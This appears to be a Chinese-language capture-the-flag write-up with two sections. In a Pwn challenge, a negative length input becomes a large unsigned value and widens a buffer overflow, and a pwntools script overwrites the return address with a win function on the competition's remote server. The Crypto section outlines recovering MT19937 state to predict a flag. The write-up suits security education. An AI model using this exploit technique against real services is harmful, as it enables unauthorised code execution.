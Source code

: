 * Tag：`Pwn` `Easy`

1. 先用 IDA 分析看看，有 BOF

![[螢幕擷取畫面 2025-05-26 223432.png]]

2. 檢查保護機制，感覺是一般的 buffer overflow

![[螢幕擷取畫面 2025-05-26 223616.png]]

3. 他會接收使用者提供的輸入，但回傳值是 unsigned，所以可以輸入 `-88` 這種數字來擴大 BOF 長度

![[螢幕擷取畫面 2025-05-29 101336.png]]
4. 用 pwndbg 測試，確定 payload 注入成功

![[螢幕擷取畫面 2025-05-24 175207.png]]

5. 執行遠端 exploit

```python
from pwn import *

context.arch = 'amd64'
# r = process('./chal')
r = remote('chals1.ais3.org', 60028)

welcome_ave_mujica = 0x401256   # win

payload = flat(
    b'a' * 168,
    welcome_ave_mujica
)

r.sendlineafter(b'?', b'yes')
# gdb.attach(r)
r.sendlineafter(b':', b'-80')   # unsigned = 160 bytes
r.sendlineafter(b':', payload)

r.interactive()
```

6. 來到 Ave Mujica 的世界就看到 flag 了

![[螢幕擷取畫面 2025-05-24 175604.png]]

---

# Stream

* Tag：`Crypto`

解密流程：
1. 逐行枚舉 256 個可能，找到唯一能讓(cipher XOR sha512(byte)) 成為**完全平方**的 byte，進而恢復 b_i
2. 把每個 b_i 拆成 8 個 32-bit 整數（640 個）。前 624 個可重建 `MT19937` 狀態
3. 逆 temper，組成 random.Random 的 state=(3, tuple, 624)
4. 跳過先前 80 次 `getrandbits(256)` 後，再取一次，得到 b_flag
